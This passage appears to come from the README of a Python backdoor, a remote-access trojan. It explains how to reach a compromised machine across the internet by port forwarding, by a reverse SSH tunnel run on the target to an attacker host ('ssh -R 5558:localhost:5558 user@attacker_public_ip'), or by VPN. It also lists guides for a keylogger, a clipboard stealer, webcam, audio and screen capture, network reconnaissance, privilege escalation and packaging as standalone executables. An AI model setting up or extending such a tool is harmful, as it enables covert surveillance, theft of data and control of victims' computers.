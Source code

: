 ### Different Networks (WAN/Internet)

**Method 1: Port Forwarding**

```bash
# On attacker's router:
# Forward external_port -> attacker_ip:5558

# In backdoor.py:
ATTACKER_HOST = 'attacker_public_ip'
ATTACKER_PORT = external_port
```

**Method 2: Reverse SSH Tunnel**

```bash
# On target:
ssh -R 5558:localhost:5558 user@attacker_public_ip

# In backdoor.py:
ATTACKER_HOST = 'localhost'
ATTACKER_PORT = 5558
```

**Method 3: VPN**

```bash
# Use VPN to create virtual LAN
# Both machines connect to same VPN
# Use VPN IP addresses
```

## 📚 Documentation

This project includes comprehensive documentation organized in the `docs/` folder:

### Main Documentation

- **README.md** (this file) - Quick start and overview
- **docs/FULL_IMPLEMENTATION_GUIDE.md** - Complete setup, testing, and feature guides

### Feature-Specific Implementation Guides

- **docs/KEYLOGGER_IMPLEMENTATION.md** - Keylogger commands, troubleshooting, and attack scenarios
- **docs/CLIPBOARD_IMPLEMENTATION.md** - Clipboard stealer implementation, injection attacks, and limitations
- **docs/SCREEN_MEDIA_IMPLEMENTATION.md** - Screenshots, audio, webcam, and screen recording guide
- **docs/NETWORK_DISCOVERY_IMPLEMENTATION.md** - Network reconnaissance and scanning techniques
- **docs/PRIVILEGE_ESCALATION_IMPLEMENTATION.md** - Privilege escalation enumeration and exploitation

### Exploitation Guides

- **exploitation/EXECUTABLE_GUIDE.md** - How to create standalone executables
- **exploitation/SUMMARY.md** - Exploitation techniques summary
